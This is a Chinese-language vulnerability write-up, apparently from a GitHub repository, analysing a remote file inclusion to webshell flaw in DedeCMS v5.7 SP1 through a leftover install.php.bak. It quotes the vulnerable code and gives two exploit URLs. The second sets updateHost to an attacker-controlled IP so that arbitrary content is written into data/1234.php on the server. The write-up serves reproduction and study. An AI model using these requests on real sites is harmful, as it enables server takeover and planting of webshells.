





dedecms-v5.7-sp1远程文件包含getshell
==========================================
参考链接:

- [dedecms-v5.7-sp1远程文件包含getshell](http://blog.csdn.net/what_happened/article/details/53609099)

另外由于 Dedecms 不开源,官网只有最新版本的dedecms下载,网上很难找到其漏洞对应版本的安装包,导致乌云上的很多相关漏洞案例无法复现.
在github找了半天才找到一个dedecms v5.7 sp1


- 漏洞环境:
	- dedecmsv5.7sp1 ver.20140814
	- 安装完dedecms之后没有删掉install文件夹
	- **服务器上存在apache解析漏洞**

### 漏洞分析

问题代码:
```php
install/install.php.bak:

else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	
	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');     ## 将从更新地址获取到的内容写入到文件中
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}

data/admin/config_update.php:

<?php
/**
 * 更新服务器，如果有变动，请到 http://bbs.dedecms.com 查询
 *
 * @version        $Id: config_update.php 1 11:36 2011-2-21 tianya $
 * @package        DedeCMS.Administrator
 * @copyright      Copyright (c) 2007 - 2010, DesDev, Inc.
 * @license        http://help.dedecms.com/usersguide/license.html
 * @link           http://www.dedecms.com
 */

//更新服务器，如果有变动，请到 http://bbs.dedecms.com 查询
$updateHost = 'http://updatenew.dedecms.com/base-v57/';
$linkHost = 'http://flink.dedecms.com/server_url.php';

```



先提交url:

```
http://localhost/dedecms/install/index.php.bak?step=11&insLockfile=x&s_lang=abc&install_demo_name=../data/admin/config_update.php

```

这会让从step 11开始执行,到dede的远程服务器的 `http://updatenew.dedecms.com/base-v57/dedecms/demodata.abc.txt` 中取内容,然后写入到config_update.php文件中去。

然而`demodata.abc.txt`在dedecms的远程服务器是不存在的,获取到的就没有任何内容,这就导致了`data/admin/config_update.php`中的内容被覆盖,变量`$updateHost`变为了空值,自然$updateHost变量就可以在URL中自定义了！



再次提交url:
```
http://localhost/dedecms/install/index.php.bak?step=11&insLockfile=x&s_lang=abc&install_demo_name=../data/1234.php&updateHost=http://192.168.48.145/
```



到这里 `http://localhost/dedecms/data/1234.php` 就写入了想要的内容。

